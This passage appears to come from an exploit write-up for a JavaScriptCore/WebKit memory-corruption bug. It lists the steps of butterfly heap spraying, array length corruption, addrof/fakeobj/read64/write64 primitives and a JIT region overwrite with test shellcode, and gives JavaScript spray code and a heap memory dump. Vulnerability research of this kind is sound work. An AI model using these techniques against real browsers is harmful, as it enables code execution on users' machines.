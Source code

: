 2. Trigger Bug
    - Since the exact butterfly address for the JSArray object is not known at the time of the trigger, the most frequently used address is used.

3. Search for a vector of length 0x605 and whose first element's value is 0x1010000000000 in the sprayed butterfly.
    - These values are written by the vulnerability.

4. With the corrupted array in Step 3, change the length of the next array to 0x1338, leaking valid JScell.

5. After that, overwrite the JIT region with addrof/fakeobj/read64/write64 primitives.

6. JIT code is written with the shellcode that does the following:
    - sets the rax, rcx, rdx, rdi, rsi registers to 0x1337.
    - int 3.

The following code snippets show how each step is programmed in JavaScript.
Step 2 and 3 are the important steps.

### 1. butterfly spray

```javascript
function array_spray(value)
{
    for(let i=0;i<SPRAY_SIZE;i++)
    {
        tmp = new Array();
        tmp2 = new Array();
        g_double_array.push(tmp);
        g_contigous_array.push(tmp2);
        tmp[0] = 0.0;
        tmp[1] = qwordAsFloat(floatAsQword(value)+0x5d); // [1]
        tmp[2] = 0.0;
        tmp[3] = 0.0;

        tmp2[0] = tmp;
        tmp2[1] = evil_array_content;
        tmp2[2] = evil_array_content;
    }
}
// ...
addr_list = [ qwordAsFloat(0x8515baca8) ]; // [2]
```

In the above code, `array_spray` function creates a butterfly with the following shape and heap sprays it. For Example, 

```plaintext
0x8d8104030: 0x0000000500000004 // g_double_array vector length | public length
0x8d8104038: 0x0000000000000000 // [0] <- This address is used in the trigger function
0x8d8104040: 0x00000008515bad05 // [1]
0x8d8104048: 0x0000000000000000 // [2]
0x8d8104050: 0x0000000000000000 // [3]
0x8d8104058: 0x7ff8000000000000
0x8d8104060: 0x0000000500000003 // g_contigous_array vector length | public length
0x8d8104068: 0x00000001c49f54c0 // g_double_array's element
0x8d8104070: 0x00000001b822e068 // evil_array_content
0x8d8104078: 0x00000001b822e068 // evil_array_content
0x8d8104080: 0x0000000000000000
0x8d8104088: 0x0000000000000000
```
&nbsp;
